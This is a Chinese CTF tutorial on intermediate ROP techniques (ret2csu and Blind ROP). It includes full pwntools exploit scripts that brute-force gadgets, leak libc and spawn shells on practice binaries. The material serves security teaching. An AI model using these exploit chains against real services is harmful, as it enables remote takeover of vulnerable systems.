

# 中級ROP

中級 ROP 主要是使用了一些比較巧妙的 Gadgets。

## ret2csu

### 原理

在 64 位程序中，函數的前 6 個參數是通過寄存器傳遞的，但是大多數時候，我們很難找到每一個寄存器對應的gadgets。 這時候，我們可以利用 x64 下的 __libc_csu_init 中的 gadgets。這個函數是用來對 libc 進行初始化操作的，而一般的程序都會調用 libc 函數，所以這個函數一定會存在。我們先來看一下這個函數(當然，不同版本的這個函數有一定的區別)

```asm
.text:00000000004005C0 ; void _libc_csu_init(void)
.text:00000000004005C0                 public __libc_csu_init
.text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16o
.text:00000000004005C0                 push    r15
.text:00000000004005C2                 push    r14
.text:00000000004005C4                 mov     r15d, edi
.text:00000000004005C7                 push    r13
.text:00000000004005C9                 push    r12
.text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry
.text:00000000004005D2                 push    rbp
.text:00000000004005D3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:00000000004005DA                 push    rbx
.text:00000000004005DB                 mov     r14, rsi
.text:00000000004005DE                 mov     r13, rdx
.text:00000000004005E1                 sub     rbp, r12
.text:00000000004005E4                 sub     rsp, 8
.text:00000000004005E8                 sar     rbp, 3
.text:00000000004005EC                 call    _init_proc
.text:00000000004005F1                 test    rbp, rbp
.text:00000000004005F4                 jz      short loc_400616
.text:00000000004005F6                 xor     ebx, ebx
.text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400600
.text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54j
.text:0000000000400600                 mov     rdx, r13
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r15d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616
.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34j
.text:0000000000400616                 add     rsp, 8
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 retn
.text:0000000000400624 __libc_csu_init endp
```

這裏我們可以利用以下幾點

- 從 0x000000000040061A 一直到結尾，我們可以利用棧溢出構造棧上數據來控制 rbx,rbp,r12,r13,r14,r15 寄存器的數據。
- 從 0x0000000000400600 到 0x0000000000400609，我們可以將 r13 賦給 rdx,將 r14 賦給 rsi，將 r15d 賦給 edi（需要注意的是，雖然這裏賦給的是 edi，**但其實此時 rdi 的高 32 位寄存器值爲 0（自行調試）**，所以其實我們可以控制 rdi 寄存器的值，只不過只能控制低 32 位），而這三個寄存器，也是 x64 函數調用中傳遞的前三個寄存器。此外，如果我們可以合理地控制 r12 與 rbx，那麼我們就可以調用我們想要調用的函數。比如說我們可以控制 rbx 爲 0，r12 爲存儲我們想要調用的函數的地址。
- 從 0x000000000040060D 到 0x0000000000400614，我們可以控制 rbx 與 rbp 的之間的關係爲rbx+1 = rbp，這樣我們就不會執行 loc_400600，進而可以繼續執行下面的彙編程序。這裏我們可以簡單的設置rbx=0，rbp=1。

### 示例

這裏我們以蒸米的一步一步學 ROP 之 linux_x64 篇中 [level5](https://github.com/zhengmin1989/ROP_STEP_BY_STEP/blob/master/linux_x64/level5) 爲例進行介紹。首先檢查程序的安全保護

```shell
➜  ret2__libc_csu_init git:(iromise) ✗ checksec level5
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序爲 64 位，開啓了堆棧不可執行保護。

其次，尋找程序的漏洞，可以看出程序中有一個簡單的棧溢出

```c
ssize_t vulnerable_function()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x200uLL);
}
```

簡單瀏覽下程序，發現程序中既沒有 system 函數地址，也沒有 /bin/sh 字符串，所以兩者都需要我們自己去構造了。

**注：這裏我嘗試在我本機使用 system 函數來獲取 shell 失敗了，應該是環境變量的問題，所以這裏使用的是execve 來獲取 shell。**

基本利用思路如下

- 利用棧溢出執行 libc_csu_gadgets 獲取 write 函數地址，並使得程序重新執行 main 函數
- 根據 libcsearcher 獲取對應 libc 版本以及 execve 函數地址
- 再次利用棧溢出執行 libc_csu_gadgets 向 bss 段寫入 execve 地址以及 '/bin/sh’ 地址，並使得程序重新執行main 函數。
- 再次利用棧溢出執行 libc_csu_gadgets 執行 execve('/bin/sh') 獲取 shell。

exp 如下

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

### 思考

#### 改進

在上面的時候，我們直接利用了這個通用 gadgets，其輸入的字節長度爲 128。但是，並不是所有的程序漏洞都可以讓我們輸入這麼長的字節。那麼當允許我們輸入的字節數較少的時候，我們該怎麼有什麼辦法呢？下面給出了幾個方法

##### 改進1 - 提前控制 rbx 與 rbp

可以看到在我們之前的利用中，我們利用這兩個寄存器的值的主要是爲了滿足 cmp 的條件，並進行跳轉。如果我們可以提前控制這兩個數值，那麼我們就可以減少 16 字節，即我們所需的字節數只需要112。

##### 改進2-多次利用

其實，改進 1 也算是一種多次利用。我們可以看到我們的 gadgets 是分爲兩部分的，那麼我們其實可以進行兩次調用來達到的目的，以便於減少一次 gadgets 所需要的字節數。但這裏的多次利用需要更加嚴格的條件

- 漏洞可以被多次觸發
- 在兩次觸發之間，程序尚未修改 r12-r15 寄存器，這是因爲要兩次調用。

**當然，有時候我們也會遇到一次性可以讀入大量的字節，但是不允許漏洞再次利用的情況，這時候就需要我們一次性將所有的字節佈置好，之後慢慢利用。**

#### gadget

其實，除了上述這個gadgets，gcc默認還會編譯進去一些其它的函數

```text
_init
_start
call_gmon_start
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
frame_dummy
__libc_csu_init
__libc_csu_fini
_fini
```

我們也可以嘗試利用其中的一些代碼來進行執行。此外，由於 PC 本身只是將程序的執行地址處的數據傳遞給CPU，而 CPU 則只是對傳遞來的數據進行解碼，只要解碼成功，就會進行執行。所以我們可以將源程序中一些地址進行偏移從而來獲取我們所想要的指令，只要可以確保程序不崩潰。

需要一說的是，在上面的 libc_csu_init 中我們主要利用了以下寄存器

- 利用尾部代碼控制了rbx，rbp，r12，r13，r14，r15。
- 利用中間部分的代碼控制了rdx，rsi，edi。

而其實 libc_csu_init 的尾部通過偏移是可以控制其他寄存器的。其中，0x000000000040061A 是正常的起始地址，**可以看到我們在 0x000000000040061f 處可以控制 rbp 寄存器，在0x0000000000400621 處可以控制 rsi寄存器。**而如果想要深入地瞭解這一部分的內容，就要對彙編指令中的每個字段進行更加透徹地理解。如下。

```asm
gef➤  x/5i 0x000000000040061A
   0x40061a <__libc_csu_init+90>:	pop    rbx
   0x40061b <__libc_csu_init+91>:	pop    rbp
   0x40061c <__libc_csu_init+92>:	pop    r12
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
gef➤  x/5i 0x000000000040061b
   0x40061b <__libc_csu_init+91>:	pop    rbp
   0x40061c <__libc_csu_init+92>:	pop    r12
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
gef➤  x/5i 0x000000000040061A+3
   0x40061d <__libc_csu_init+93>:	pop    rsp
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
gef➤  x/5i 0x000000000040061e
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
gef➤  x/5i 0x000000000040061f
   0x40061f <__libc_csu_init+95>:	pop    rbp
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
gef➤  x/5i 0x0000000000400620
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
   0x400626:	nop    WORD PTR cs:[rax+rax*1+0x0]
gef➤  x/5i 0x0000000000400621
   0x400621 <__libc_csu_init+97>:	pop    rsi
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
gef➤  x/5i 0x000000000040061A+9
   0x400623 <__libc_csu_init+99>:	pop    rdi
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
   0x400626:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x400630 <__libc_csu_fini>:	repz ret
```

### 題目

- 2016 XDCTF pwn100
- 2016 華山杯 SU_PWN

### 參考閱讀

- http://drops.xmd5.com/static/drops/papers-7551.html
- http://drops.xmd5.com/static/drops/binary-10638.html

## ret2reg

### 原理

1. 查看溢出函返回時哪個寄存值指向溢出緩衝區空間
2. 然後反編譯二進制，查找 call reg 或者jmp reg指令，將 EIP 設置爲該指令地址
3. reg所指向的空間上注入 Shellcode (需要確保該空間是可以執行的，但通常都是棧上的)

## JOP

Jump-oriented programming

## COP

Call-oriented programming

## BROP

### 基本介紹

BROP(Blind ROP)於2014年由Standford的Andrea Bittau提出，其相關研究成果發表在Oakland 2014，其論文題目是**Hacking Blind**，下面是作者對應的paper和slides,以及作者相應的介紹

- [paper](http://www.scs.stanford.edu/brop/bittau-brop.pdf)
- [slide](http://www.scs.stanford.edu/brop/bittau-brop-slides.pdf)

BROP是沒有對應應用程序的源代碼或者二進制文件下，對程序進行攻擊，劫持程序的執行流。

### 攻擊條件

1. 源程序必須存在棧溢出漏洞，以便於攻擊者可以控制程序流程。
2. 服務器端的進程在崩潰之後會重新啓動，並且重新啓動的進程的地址與先前的地址一樣（這也就是說即使程序有ASLR保護，但是其只是在程序最初啓動的時候有效果）。目前nginx, MySQL, Apache, OpenSSH等服務器應用都是符合這種特性的。

### 攻擊原理

目前，大部分應用都會開啓ASLR、NX、Canary保護。這裏我們分別講解在BROP中如何繞過這些保護，以及如何進行攻擊。

#### 基本思路

在BROP中，基本的遵循的思路如下

-   判斷棧溢出長度
    -   暴力枚舉
-   Stack Reading
    -   獲取棧上的數據來泄露canaries，以及ebp和返回地址。
-   Blind ROP
    -   找到足夠多的 gadgets 來控制輸出函數的參數，並且對其進行調用，比如說常見的 write 函數以及puts函數。
-   Build the exploit
    -   利用輸出函數來 dump 出程序以便於來找到更多的 gadgets，從而可以寫出最後的 exploit。

#### 棧溢出長度

直接從1暴力枚舉即可，直到發現程序崩潰。

#### Stack Reading

如下所示，這是目前經典的棧佈局

```
buffer|canary|saved fame pointer|saved returned address
```

要向得到canary以及之後的變量，我們需要解決第一個問題，如何得到overflow的長度，這個可以通過不斷嘗試來獲取。

其次，關於canary以及後面的變量，所採用的的方法一致，這裏我們以canary爲例。

canary本身可以通過爆破來獲取，但是如果只是愚蠢地枚舉所有的數值的話，顯然是低效的。

需要注意的是，攻擊條件2表明了程序本身並不會因爲crash有變化，所以每次的canary等值都是一樣的。所以我們可以按照字節進行爆破。正如論文中所展示的，每個字節最多有256種可能，所以在32位的情況下，我們最多需要爆破1024次，64位最多爆破2048次。


#### Blind ROP

##### 基本思路

最樸素的執行write函數的方法就是構造系統調用。

```asm
pop rdi; ret # socket
pop rsi; ret # buffer
pop rdx; ret # length
pop rax; ret # write syscall number
syscall
```

但通常來說，這樣的方法都是比較困難的，因爲想要找到一個syscall的地址基本不可能。。。我們可以通過轉換爲找write的方式來獲取。

###### BROP gadgets

首先，在libc_csu_init的結尾一長串的gadgets，我們可以通過偏移來獲取write函數調用的前兩個參數。正如文中所展示的



###### find a call write

我們可以通過plt表來獲取write的地址。

###### control rdx

需要注意的是，rdx只是我們用來輸出程序字節長度的變量，只要不爲0即可。一般來說程序中的rdx經常性會不是零。但是爲了更好地控制程序輸出，我們仍然儘量可以控制這個值。但是，在程序

```asm
pop rdx; ret
```

這樣的指令幾乎沒有。那麼，我們該如何控制rdx的數值呢？這裏需要說明執行strcmp的時候，rdx會被設置爲將要被比較的字符串的長度，所以我們可以找到strcmp函數，從而來控制rdx。

那麼接下來的問題，我們就可以分爲兩項

-   尋找gadgets
-   尋找PLT表
    -   write入口
    -   strcmp入口

##### 尋找gadgets

首先，我們來想辦法尋找gadgets。此時，由於尚未知道程序具體長什麼樣，所以我們只能通過簡單的控制程序的返回地址爲自己設置的值，從而而來猜測相應的gadgets。而當我們控制程序的返回地址時，一般有以下幾種情況

- 程序直接崩潰
- 程序運行一段時間後崩潰
- 程序一直運行而並不崩潰

爲了尋找合理的gadgets，我們可以分爲以下兩步

###### 尋找stop gadgets

所謂`stop gadget`一般指的是這樣一段代碼：當程序的執行這段代碼時，程序會進入無限循環，這樣使得攻擊者能夠一直保持連接狀態。

> 其實stop gadget也並不一定得是上面的樣子，其根本的目的在於告訴攻擊者，所測試的返回地址是一個gadgets。

之所以要尋找stop gadgets，是因爲當我們猜到某個gadgtes後，如果我們僅僅是將其佈置在棧上，由於執行完這個gadget之後，程序還會跳到棧上的下一個地址。如果該地址是非法地址，那麼程序就會crash。這樣的話，在攻擊者看來程序只是單純的crash了。因此，攻擊者就會認爲在這個過程中並沒有執行到任何的`useful gadget`，從而放棄它。例子如下圖


但是，如果我們佈置了`stop gadget`，那麼對於我們所要嘗試的每一個地址，如果它是一個gadget的話，那麼程序不會崩潰。接下來，就是去想辦法識別這些gadget。

###### 識別 gadgets

那麼，我們該如何識別這些gadgets呢？我們可以通過棧佈局以及程序的行爲來進行識別。爲了更加容易地進行介紹，這裏定義棧上的三種地址

-   **Probe**
    -   探針，也就是我們想要探測的代碼地址。一般來說，都是64位程序，可以直接從0x400000嘗試，如果不成功，有可能程序開啓了PIE保護，再不濟，就可能是程序是32位了。。這裏我還沒有特別想明白，怎麼可以快速確定遠程的位數。
-   **Stop**
    -   不會使得程序崩潰的stop gadget的地址。
-   **Trap**
    -   可以導致程序崩潰的地址

我們可以通過在棧上擺放不同順序的**Stop**與 **Trap**從而來識別出正在執行的指令。因爲執行Stop意味着程序不會崩潰，執行Trap意味着程序會立即崩潰。這裏給出幾個例子

-   probe,stop,traps(traps,traps,...)
    -   我們通過程序崩潰與否(**如果程序在probe處直接崩潰怎麼判斷**)可以找到不會對棧進行pop操作的gadget，如
        -   ret
        -   xor eax,eax; ret
-   probe,trap,stop,traps
    -   我們可以通過這樣的佈局找到只是彈出一個棧變量的gadget。如
        -   pop rax; ret
        -   pop rdi; ret
-   probe, trap, trap, trap, trap, trap, trap, stop, traps
    -   我們可以通過這樣的佈局來找到彈出6個棧變量的gadget，也就是與brop gadget相似的gadget。**這裏感覺原文是有問題的，比如說如果遇到了只是pop一個棧變量的地址，其實也是不會崩潰的，，**這裏一般來說會遇到兩處比較有意思的地方
        -   plt處不會崩，，
        -   _start處不會崩，相當於程序重新執行。

之所以要在每個佈局的後面都放上trap，是爲了能夠識別出，當我們的probe處對應的地址執行的指令跳過了stop，程序立馬崩潰的行爲。

但是，即使是這樣，我們仍然難以識別出正在執行的gadget到底是在對哪個寄存器進行操作。

但是，需要注意的是向BROP這樣的一下子彈出6個寄存器的gadgets，程序中並不經常出現。所以，如果我們發現了這樣的gadgets，那麼，有很大的可能性，這個gadgets就是brop gadgets。此外，這個gadgets通過錯位還可以生成pop rsp等這樣的gadgets，可以使得程序崩潰也可以作爲識別這個gadgets的標誌。

此外，根據我們之前學的ret2libc_csu_init可以知道該地址減去0x1a就會得到其上一個gadgets。可以供我們調用其它函數。

需要注意的是probe可能是一個stop gadget，我們得去檢查一下，怎麼檢查呢？我們只需要讓後面所有的內容變爲trap地址即可。因爲如果是stop gadget的話，程序會正常執行，否則就會崩潰。看起來似乎很有意思.

##### 尋找PLT

如下圖所示，程序的plt表具有比較規整的結構，每一個plt表項都是16字節。而且，在每一個表項的6字節偏移處，是該表項對應的函數的解析路徑，即程序最初執行該函數的時候，會執行該路徑對函數的got地址進行解析。


此外，對於大多數plt調用來說，一般都不容易崩潰，即使是使用了比較奇怪的參數。所以說，如果我們發現了一系列的長度爲16的沒有使得程序崩潰的代碼段，那麼我們有一定的理由相信我們遇到了plt表。除此之外，我們還可以通過前後偏移6字節，來判斷我們是處於plt表項中間還是說處於開頭。

##### 控制rdx

當我們找到plt表之後，下面，我們就該想辦法來控制rdx的數值了，那麼該如何確認strcmp的位置呢？需要提前說的是，並不是所有的程序都會調用strcmp函數，所以在沒有調用strcmp函數的情況下，我們就得利用其它方式來控制rdx的值了。這裏給出程序中使用strcmp函數的情況。

之前，我們已經找到了brop的gadgets，所以我們可以控制函數的前兩個參數了。與此同時，我們定義以下兩種地址

- readable，可讀的地址。
- bad, 非法地址，不可訪問，比如說0x0。

那麼我們如果控制傳遞的參數爲這兩種地址的組合，會出現以下四種情況

- strcmp(bad,bad)
- strcmp(bad,readable)
- strcmp(readable,bad)
- strcmp(readable,readable)

只有最後一種格式，程序纔會正常執行。

**注**：在沒有PIE保護的時候，64位程序的ELF文件的0x400000處有7個非零字節。

那麼我們該如何具體地去做呢？有一種比較直接的方法就是從頭到尾依次掃描每個plt表項，但是這個卻比較麻煩。我們可以選擇如下的一種方法

- 利用plt表項的慢路徑
- 並且利用下一個表項的慢路徑的地址來覆蓋返回地址

這樣，我們就不用來回控制相應的變量了。

當然，我們也可能碰巧找到strncmp或者strcasecmp函數，它們具有和strcmp一樣的效果。

##### 尋找輸出函數

尋找輸出函數既可以尋找write，也可以尋找puts。一般現先找puts函數。不過這裏爲了介紹方便，先介紹如何尋找write。

###### 尋找write@plt

當我們可以控制write函數的三個參數的時候，我們就可以再次遍歷所有的plt表，根據write函數將會輸出內容來找到對應的函數。需要注意的是，這裏有個比較麻煩的地方在於我們需要找到文件描述符的值。一般情況下，我們有兩種方法來找到這個值

- 使用rop chain，同時使得每個rop對應的文件描述符不一樣
- 同時打開多個連接，並且我們使用相對較高的數值來試一試。

需要注意的是

- linux默認情況下，一個進程最多隻能打開1024個文件描述符。
- posix標準每次申請的文件描述符數值總是當前最小可用數值。

當然，我們也可以選擇尋找puts函數。

###### 尋找puts@plt

尋找puts函數(這裏我們尋找的是 plt)，我們自然需要控制rdi參數，在上面，我們已經找到了brop gadget。那麼，我們根據brop gadget偏移9可以得到相應的gadgets（由ret2libc_csu_init中後續可得）。同時在程序還沒有開啓PIE保護的情況下，0x400000處爲ELF文件的頭部，其內容爲\x7fELF。所以我們可以根據這個來進行判斷。一般來說，其payload如下

```
payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

#### 攻擊總結

此時，攻擊者已經可以控制輸出函數了，那麼攻擊者就可以輸出.text段更多的內容以便於來找到更多合適gadgets。同時，攻擊者還可以找到一些其它函數，如dup2或者execve函數。一般來說，攻擊者此時會去做下事情

- 將socket輸出重定向到輸入輸出
- 尋找“/bin/sh”的地址。一般來說，最好是找到一塊可寫的內存，利用write函數將這個字符串寫到相應的地址。
- 執行execve獲取shell，獲取execve不一定在plt表中，此時攻擊者就需要想辦法執行系統調用了。

### 例子

這裏我們以 [HCTF2016的出題人失蹤了](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/stackoverflow/brop/hctf2016-brop) 爲例。基本思路如下

#### 確定棧溢出長度

```python
def getbufferflow_length():
    i = 1
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('WelCome my friend,Do you know password?\n')
            sh.send(i * 'a')
            output = sh.recv()
            sh.close()
            if not output.startswith('No password'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

根據上面，我們可以確定，棧溢出的長度爲72。同時，根據回顯信息可以發現程序並沒有開啓canary保護，否則，就會有相應的報錯內容。所以我們不需要執行stack reading。

#### 尋找 stop gadgets

尋找過程如下

```python
def get_stop_addr(length):
    addr = 0x400000
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            sh.recv()
            sh.close()
            print 'one success addr: 0x%x' % (addr)
            return addr
        except Exception:
            addr += 1
            sh.close()
```

這裏我們直接嘗試64位程序沒有開啓PIE的情況，因爲一般是這個樣子的，，，如果開啓了，，那就按照開啓了的方法做，，結果發現了不少，，我選擇了一個貌似返回到源程序中的地址

```text
one success stop gadget addr: 0x4006b6
```

#### 識別brop gadgets

下面，我們根據上面介紹的原理來得到對應的brop gadgets地址。構造如下，get_brop_gadget是爲了得到可能的brop gadget，後面的check_brop_gadget是爲了檢查。

```python
def get_brop_gadget(length, stop_gadget, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print content
        # stop gadget returns memory
        if not content.startswith('WelCome'):
            return False
        return True
    except Exception:
        sh.close()
        return False


def check_brop_gadget(length, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


##length = getbufferflow_length()
length = 72
##get_stop_addr(length)
stop_gadget = 0x4006b6
addr = 0x400740
while 1:
    print hex(addr)
    if get_brop_gadget(length, stop_gadget, addr):
        print 'possible brop gadget: 0x%x' % addr
        if check_brop_gadget(length, addr):
            print 'success brop gadget: 0x%x' % addr
            break
    addr += 1
```

這樣，我們基本得到了brop的gadgets地址0x4007ba

#### 確定puts@plt地址

根據上面，所說我們可以構造如下payload來進行獲取

```text
payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

具體函數如下

```python
def get_puts_addr(length, rdi_ret, stop_gadget):
    addr = 0x400000
    while 1:
        print hex(addr)
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(
            addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content = sh.recv()
            if content.startswith('\x7fELF'):
                print 'find puts@plt addr: 0x%x' % addr
                return addr
            sh.close()
            addr += 1
        except Exception:
            sh.close()
            addr += 1
```

最後根據plt的結構，選擇0x400560作爲puts@plt

#### 泄露puts@got地址

在我們可以調用puts函數後，我們可以泄露puts函數的地址，進而獲取libc版本，從而獲取相關的system函數地址與/bin/sh地址，從而獲取shell。我們從0x400000開始泄露0x1000個字節，這已經足夠包含程序的plt部分了。代碼如下

```python
def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 9999)
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None


##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

最後，我們將泄露的內容寫到文件裏。需要注意的是如果泄露出來的是“”,那說明我們遇到了'\x00'，因爲puts是輸出字符串，字符串是以'\x00'爲終止符的。之後利用ida打開binary模式，首先在edit->segments->rebase program 將程序的基地址改爲0x400000，然後找到偏移0x560處，如下

```asm
seg000:0000000000400560                 db 0FFh
seg000:0000000000400561                 db  25h ; %
seg000:0000000000400562                 db 0B2h ;
seg000:0000000000400563                 db  0Ah
seg000:0000000000400564                 db  20h
seg000:0000000000400565                 db    0
```

然後按下c,將此處的數據轉換爲彙編指令，如下

```asm
seg000:0000000000400560 ; ---------------------------------------------------------------------------
seg000:0000000000400560                 jmp     qword ptr cs:601018h
seg000:0000000000400566 ; ---------------------------------------------------------------------------
seg000:0000000000400566                 push    0
seg000:000000000040056B                 jmp     loc_400550
seg000:000000000040056B ; ---------------------------------------------------------------------------
```

這說明，puts@got的地址爲0x601018。

#### 程序利用

```python
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

sh = remote('127.0.0.1', 9999)
sh.recvuntil('password?\n')
payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
    stop_gadget)
sh.sendline(payload)
data = sh.recvuntil('\nWelCome', drop=True)
puts_addr = u64(data.ljust(8, '\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(stop_gadget)
sh.sendline(payload)
sh.interactive()
```

### 參考閱讀

- http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/
- http://bobao.360.cn/learning/detail/3694.html
- http://o0xmuhe.me/2017/01/22/Have-fun-with-Blind-ROP/
